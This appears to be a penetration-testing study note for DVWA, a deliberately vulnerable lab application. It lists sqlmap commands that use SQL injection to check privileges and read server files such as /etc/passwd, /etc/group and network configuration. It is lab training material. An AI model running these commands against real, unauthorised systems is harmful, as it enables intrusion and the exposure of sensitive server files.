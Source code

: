 # 02 - Enumeration

#sql-injection #sqlmap #discovery-and-enumeration #dvwa

### 2.1 -  OS Enumeration

#### 2.1.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.

#### 2.1.2 - General

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --privileges -U CU
```

- Enumerate hostname

```
$ sqlmap "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --hostname
```
#### 2.1.3 - Linux

##### 2.1.3.1 - Basic Information

- Enumerating user accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/passwd"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

- Enumerate user groups

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/group"
```

- Local IPv4 address

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/networks"
```
